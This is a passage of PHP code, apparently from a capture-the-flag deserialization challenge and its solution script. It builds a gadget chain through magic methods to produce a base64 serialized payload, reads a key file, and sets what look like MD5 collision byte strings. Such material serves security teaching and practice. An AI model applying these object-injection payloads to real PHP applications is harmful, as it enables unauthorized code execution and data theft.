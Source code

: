 			                          if(basename($_SERVER[$a])==='key.php'){
			                              echo("找到了！但好像不能直接使用，怎么办，我好想她<br>");
			                              $file = "key.php";
			                              readfile($file);
			                          }
			                      }
			                      else{
			                          echo("你别这样，她会生气的┭┮﹏┭┮");
			                      }
			                  }
			              }
			              else{
			                  echo("就这点能耐？怎么帮我找到她(╥╯^╰╥)<br>");
			              }
			          }
			      }
			      public function __get($good) {
			          echo "you are good,你快找到我爱的那个她了<br>";
			          $zhui = $this->$good;  
			          $zhui[$good]();  
			      }
			  }
			  
			  // Me::__wakeup --> her::__invoke --> important::__sleep --> useless::__get --> FLAG!
			  if($_GET["action"] == "fcall") {
			      $her_find = new her("momo", 9);
			      $useless = new useless([
			          "seeyou" => [$her_find, "find"]
			      ]);
			      
			      $important = new important();
			      $important -> power = $useless;
			      
			      $her = new her("momo", 9);
			      $her -> asd = $important;
			      
			  
			      $me = new Me();
			      $me -> bro = & $me -> secret;
			      $me -> qwe = $her;
			      
			      $o = $me;
			      $a = new ArrayObject([114 => 514]);
			      $a -> o = $o;
			      echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
			  }
			  else if($_GET["action"] == "getkey") {
			      $useless = new useless([]);
			      $useless -> QW = urldecode("%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2");
			      $useless -> YXX = urldecode("%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2");
			      